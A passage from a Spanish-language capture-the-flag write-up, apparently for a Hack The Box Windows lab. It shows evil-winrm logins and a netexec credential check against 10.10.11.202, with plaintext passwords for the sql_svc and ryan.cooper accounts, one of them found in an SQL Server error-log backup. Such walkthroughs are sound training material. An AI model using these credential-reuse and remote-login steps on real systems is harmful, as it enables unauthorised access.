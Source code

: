 ```python
❯ evil-winrm -i 10.10.11.202 -u 'sql_svc' -p 'REGGIE1234ronnie'
```

![20240312184604.png](20240312184604.png)

Luego de enumerar la maquina victima encontraremos un `.bak` en donde encontraremos las credenciales del usuario `ryan.cooper`

```python
*Evil-WinRM* PS C:\SQLServer\logs> type ERRORLOG.BAK
```

![20240312204424.png](20240312204424.png)

## Usuario : ryan.cooper

Una vez obtenidas las credenciales, lo que haremos será validarlas con `netexec`

```python
❯ netexec winrm 10.10.11.202 -u 'ryan.cooper' -p 'NuclearMosquito3'
```

![20240312204502.png](20240312204502.png)

¡Las credenciales son validas! Ahora haciendo uso de `evil-winrm` ingresaremos a la maquina victima por el servicio `winrm`

```python
❯ evil-winrm -i 10.10.11.202 -u 'ryan.cooper' -p 'NuclearMosquito3'
```
